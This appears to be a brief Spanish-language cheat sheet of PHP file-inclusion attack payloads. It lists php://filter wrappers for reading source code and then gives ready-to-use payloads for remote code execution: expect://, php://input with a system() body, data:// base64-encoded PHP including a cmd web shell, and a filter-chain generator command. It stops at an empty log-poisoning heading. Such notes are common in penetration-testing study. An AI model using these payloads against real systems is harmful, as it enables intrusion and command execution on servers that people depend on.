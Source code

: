 
## Wrappers:
- php://filter/convert.base64-encode/resource=
- php://filter/read=string.rot13/resource=
- php://filter/convert.iconv.utf-8.utf-16/resource=
## Wrappers para RCE:
- (GET)expect://whoami.
- (Cualquiera de los 2):
(Head)
POST /?filename=php://input HTTP/1.1
(Body)
<?php system ("whoami"); ?>
- (GET) /?filename=data://text/plain;base64,PD9waHAgc3lzdGVtKCd3aG9hbWknKTsgPz4=
- (GET) /?filename=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2b&cmd=whoami (Hay que encodear la cadena en base64).
- Usando la tool de este repo: https://github.com/synacktiv/php_filter_chain_generator
Podemos generar cadenas falopa las cuales nos permiten hacer RCEs.
python3 php_filter_chain_generator.py --chain '<?php system("whoami"); ?>'

## Log Poisoning
